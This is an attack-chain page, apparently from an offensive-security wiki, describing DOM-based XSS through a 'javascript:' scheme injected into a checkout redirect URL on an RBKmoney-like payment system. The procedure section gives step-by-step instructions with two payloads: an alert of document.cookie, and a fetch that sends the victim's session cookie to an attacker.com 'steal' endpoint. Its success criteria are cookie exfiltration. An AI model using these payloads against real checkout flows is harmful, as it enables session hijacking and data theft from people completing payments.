

# DOM-based XSS via JavaScript URL Scheme in Redirect URL Checkout

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Browser developer tools for testing
- Proxy tool like [[tools/Burp-Suite]] for intercepting requests (optional)

### Target Environment

- Web application with payment/checkout functionality
- RBKmoney-like invoice payment system
- No specific ports; operates over HTTPS

### Initial Access Requirements

- Ability to initiate a payment or invoice checkout
- Victim interaction required (successful payment triggers redirect)
- No prior credentials needed; exploitable via crafted URL

## Detailed Attack Procedures

### Step 1: Inject and Execute Malicious JavaScript
procedure: [[procedures/Inject-Malicious-JavaScript-via-Redirect-URL]]

**Objective**: Inject a 'javascript:' URL scheme into the redirect parameter during checkout to execute arbitrary code in the victim's browser upon payment completion, enabling session cookie theft or other client-side attacks.

**Instructions**: During the checkout process, modify the redirect URL parameter to include a 'javascript:' scheme payload. For example, use a proxy to intercept the request and alter the redirect field. A sample payload might be: `redirect_url=javascript:alert(document.cookie);`. Trigger the payment flow and complete the invoice payment to execute the code.

To test without real payment, use browser dev tools to simulate the redirect or craft a URL like `https://target.com/checkout?redirect_url=javascript:fetch('https://attacker.com/steal?cookie='+document.cookie);`.

**Expected Output**: Upon successful payment, the browser executes the JavaScript, potentially displaying an alert or sending data to an attacker-controlled server.

**Success Indicators**:
- JavaScript alert or network request to attacker server observed
- Session cookies or client-side data exfiltrated
- No URL sanitization errors during injection

## Attack Chain Summary

### Key Achievements

1. Successful injection of 'javascript:' scheme bypassing redirect validation
2. Arbitrary JavaScript execution in victim's browser context
3. Potential theft of sensitive client-side data like session tokens

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
